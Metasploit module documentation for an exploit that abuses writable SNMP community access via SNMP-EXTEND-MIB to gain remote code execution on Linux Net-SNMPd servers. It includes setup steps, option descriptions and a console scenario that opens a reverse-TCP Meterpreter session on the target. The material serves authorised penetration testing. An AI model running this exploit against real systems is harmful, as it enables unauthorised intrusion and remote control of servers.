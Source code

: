 ## Vulnerable Application

  This module uses SNMP extension MIBs to enable remote code execution on the Linux Net-SNMPD servers using the 
  SNMP-EXTEND-MIB.

## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/linux/snmp/net_snmpd_rw_access`
  3. Do: `set rhost [IP]`
  4. Do: `set community [SNMP Community]`
  5. Do: `set version [SNMP Version]`
  6. Configure the payload
  7. Do: `run`
  8. You should get a session

## Options

### FILEPATH  
  The location to write the executable out to on the target. Needs to be writable by the SNMP service user. This defaults to /tmp.  
  
### COMMUNITY  
  The read/write community string of the target Net-SNMP service.
  
### VERSION  
  The SNMP protocol version. Accepted values are '1' or '2c'. 
  
### CHUNKSIZE  
  The maximum amount of payload bytes to write in a single operation. This value was found through experimentation and may not be suitable in all environments, but should hopefully work for all cmdstager flavors  
  Note that cmdstager payloads are modified to allow further escaping, so the values limits may also change between cmdstager flavors.  
  This is possibly related to the following bug: [https://sourceforge.net/p/net-snmp/bugs/2542/].
  
### TIMEOUT  
  Specifies the maximum time to allow SNMP to timeout.  
  
### SHELL  
  The shell to call for the client. Defaults to '/bin/bash'  


  
## Scenarios

  ```
  msf > use exploit/linux/snmp/net_snmpd_rw_access 
  msf exploit(linux/snmp/net_snmpd_rw_access) > set payload linux/x86/meterpreter/reverse_tcp
  payload => linux/x86/meterpreter/reverse_tcp
  msf exploit(linux/snmp/net_snmpd_rw_access) > set rhost 192.168.1.3
  rhost => 192.168.1.3
  msf exploit(linux/snmp/net_snmpd_rw_access) > set lhost 192.168.1.2
  lhost => 192.168.1.2
  msf exploit(linux/snmp/net_snmpd_rw_access) > set community private
  community => private
  msf exploit(linux/snmp/net_snmpd_rw_access) > set version 2c
  version => 2c

  msf exploit(linux/snmp/net_snmpd_rw_access) > show info
  
         Name: Net-SNMPd Write Access SNMP-EXTEND-MIB arbitrary code execution
       Module: exploit/linux/snmp/net_snmpd_rw_access
     Platform: 
         Arch: 
   Privileged: No
      License: Metasploit Framework License (BSD)
         Rank: Normal

  Provided by:
    Steve Embling at InteliSecure

  Available targets:
    Id  Name
    --  ----
    0   Linux x86

  Basic options:
    Name       Current Setting  Required  Description
    ----       ---------------  --------  -----------
    CHUNKSIZE  200              yes       Maximum bytes of payload to write at once 
    COMMUNITY  private          yes       SNMP Community String
    FILEPATH   /tmp             yes       file path to write to 
    RETRIES    1                yes       SNMP Retries
    RHOST      192.168.1.3      yes       The target address
    RPORT      161              yes       The target port (TCP)
    SHELL      /bin/bash        yes       Shell to call with -c argument
    SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
    SRVPORT    8080             yes       The local port to listen on.
    SSL        false            no        Negotiate SSL for incoming connections
    SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
    TIMEOUT    1                yes       SNMP Timeout
    URIPATH                     no        The URI to use for this exploit (default is random)
    VERSION    2c               yes       SNMP Version <1/2c> 

  Payload information:
    Space: 4096

  Description:
    This exploit module exploits the SNMP write access configuration 
    ability of SNMP-EXTEND-MIB to configure MIB extensions and lead to 
    remote code execution.

  References:
    https://www.intelisecure.com

  msf exploit(linux/snmp/net_snmpd_rw_access) > run
  
  [*] Started reverse TCP handler on 192.168.1.2:4444 
  [*] Command Stager progress -   1.11% done (199/17924 bytes)
  [*] Command Stager progress -   2.23% done (399/17924 bytes)
  [*] Command Stager progress -   3.34% done (598/17924 bytes)
  [*] Command Stager progress -   4.45% done (797/17924 bytes)
  ... Redacted ...
  [*] Command Stager progress -  98.64% done (17681/17924 bytes)
  [*] Command Stager progress -  99.72% done (17873/17924 bytes)
  [*] Sending stage (857352 bytes) to 192.168.1.3
  [*] Meterpreter session 31 opened (192.168.1.2:4444 -> 192.168.1.3:54232) at 2018-02-14 17:30:22 +0000
  [+] SNMP request timeout (this is promising).
  [*] Command Stager progress - 100.00% done (18022/18022 bytes)

  
  meterpreter > getuid
  Server username: uid=121, gid=129, euid=121, egid=129
  meterpreter > exit
  [*] 192.168.1.3 - Meterpreter session 30 closed.  Reason: User exit

  ```
